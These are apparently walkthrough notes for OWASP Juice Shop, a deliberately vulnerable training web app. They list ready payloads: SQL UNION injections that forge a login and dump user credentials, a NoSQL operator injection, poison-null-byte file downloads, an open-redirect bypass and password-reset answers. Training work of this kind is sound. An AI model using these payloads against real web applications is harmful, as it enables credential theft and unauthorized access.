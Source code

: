 ## Access Log
- use gobuster to find /support/logs
- download the log file

## Allowlist Bypass
-  http://127.0.0.1:3000/redirect?to=https://headfullofciphers.com?another=https://github.com/bkimminich/juice-shop

## Christmas Special
- capture adding to basket
- change productId to 10
- checkout

## Easter Egg
- navigate to /ftp/
- download eastere.gg%2500.md

## Ephemeral Accountant
- capture login request
- replace email field with "' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage','' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--"

## Forgotten Developer Backup
- navigate to /ftp/
- download package.json.bak%2500.md

## Forgotten Sales Backup
- navigate to /ftp/
- download coupons_2013.md.bak%2500.md

## GDPR Data Theft
- create an account similar to admin or someone else
- like odmin@juice-sh.op
- login and view the data export 

## Leaked Unsafe Product
- capture /rest/products/search
- add '))-- to the end to see all products
- Hueteroneel within Eurogium Edule

## Legacy Typosquatting
- download .bak file from /ftp/
- find a fake url
- report in customer feedback https://www.npmjs.com/package/epilogue-js

## Login Bjoern
- view /administration
- email is bjoern.kimminich@gmail.com
- find 'oath' in main.js
- open js console
- function to find password btoa(t.email.split('').reverse().join(''))
- password: bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=

## Misplaces Signature File
- navigate to /ftp/
- download suspicious_errors.yml%2500.md

## Nested Easter Egg
- navigate to /ftp/
- download eastere.gg%2500.md 
- copy code and paste in to cyberchef
- /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg
 
## NoSQL Manipulation
- capture commenting on a product
- PATCH endpoint /rest/products/review
- change or add 'id' field to {"$ne":-1} 

## Poison Null Byte
- download a file from /ftp/ with %2500.md

## Reset Bender's Password
- forgot password
- bender@juice-sh.op
- answer is Stop'n'Drop

## Reset Uvogin's Password
- email is uvogin@juice-sh.op
- search his twitter
- answer is Silence of the Lambs

## Steganography
- enter Pickle Rick into customer feedback
- the hidden picture is in the images on About Us

## User Credentials
- capture GET /rest/products/search?q=
- add banana'))UNION%20SELECT%20id,email,password,'4','5','6','7','8','9'%20from%20Users--

## Vulnerable Library
- send sanitize-html 1.4.2 into customer feedback
